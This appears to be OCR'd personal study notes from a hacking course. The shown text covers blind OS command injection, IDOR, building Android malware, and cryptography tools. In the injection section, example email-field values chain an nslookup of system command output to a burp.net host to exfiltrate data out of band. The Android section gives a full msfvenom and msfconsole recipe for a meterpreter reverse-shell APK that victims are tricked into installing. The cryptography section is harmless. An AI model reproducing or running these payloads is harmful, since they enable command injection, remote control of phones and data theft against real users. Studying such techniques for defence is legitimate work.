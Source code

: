 - Blind OS Command Injection with out-of-band data exfiltration:
- injecting points can be: feedback form,
- email parameter=anything@gmail.com || nslookup  whoami .burp.net ||
- email parameter=anything@gmail.com || nslookup  uname .burp.net ||
- -------------------------------------------------------------------
- IDOR(Do portswigger labs):
- https://portswigger.net/web-security/access-control/lab-insecure-direct-object- references

• 

- Look both get url and post body in burp and see for injecting points.
- ----------------------------------------------------------------------------------------------------------------- ---------------------------
- ----------------------------------------------------------------------------------------------------------------- ---------------------------
- Android Hacking
- ----------------------------------------------------------------------------------------------------------------- ---------------------------
- Making Payload:
- -->msfvenom -p android/meterpreter/reverse\_tcp lhost=<attacker-ip> lport=4444 -o raw.apk 
- To Start Your Server To Host the file locally:
- python -m SimpleHTTPServer 80
- -->msfconsole
- >use multi/handler
- >set payload android/meterpreter/reverse\_tcp
- >set lhost <attacker-ip>
- >set lport 4444
- >show options
- >run/exploit
- Victims click on raw.apk and we get meterpreter session successfully.
- meterpreter>help
- meterpreter>background
- meterpreter>upload
- meterpreter>sysinfo
- ----------------------------------------------------------------------------------------------------------------- ---------------------------
- ----------------------------------------------------------------------------------------------------------------- ---------------------------
- Cryptography
- ----------------------------------------------------------------------------------------------------------------- ---------------------------
- Hashcalc: fast and easy way to use calculator that allows computing messages digests,checksums,and HMAC's for files as well as for text and hex strings

• 

- calculating one way hashes using hashcalc
- -->Use hashcalc to monitor file integrity
- comparing hashes of file before and after upadting the content of the file.
- -->Calculating MD5 hashes Using MD5 calculator
- MD5 Calculator is used to calculate the intergrity of the file
- -->Understanding File And text encryption Using Cryptoforge
- CryptoForge is a file encrption software for personal and professional data security.it allows you to protect the privacy of sensitive files,folders,or email messages,by encrpting them with strong encrption algorithms.
- Here we used cryptoForge tool to encrypt and share files and messages with the intended person.
- in real time,we may share sensitive information through email by encrypting data using the CryptoForge.
- -->Encrypting and Decrypting the Data using BCTextEncoder
- You need to encode the text while sending it to the intended user along with the password used for encryption.The user for whom the text is intended should have the BCTextEnconder app installer.He will have to paste the encoded text in the Encoded text section and use the password you shared to decode it to plain text.
- -->Creating and using Self-signed Certificate